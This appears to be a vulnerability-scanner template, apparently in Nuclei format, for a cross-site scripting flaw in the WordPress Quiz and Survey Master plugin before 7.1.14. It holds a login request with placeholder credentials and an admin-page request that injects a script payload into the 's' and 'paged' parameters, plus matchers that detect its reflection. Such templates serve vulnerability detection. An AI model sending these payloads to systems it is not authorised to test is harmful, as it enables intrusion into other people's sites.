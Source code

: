 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Quiz and Survey Master \<7.1.14 - Cross-Site Scripting
## Description
- WordPress Quiz and Survey Master plugin prior to 7.1.14 contains a cross-site scripting vulnerability which allows a remote attacker to inject arbitrary script via unspecified vectors.
- severity - medium
- tags - wordpress,cve,cve2021,wp-plugin,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=mlw_quiz_list&s="></script><script>alert(document.domain)</script>&paged="></script><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---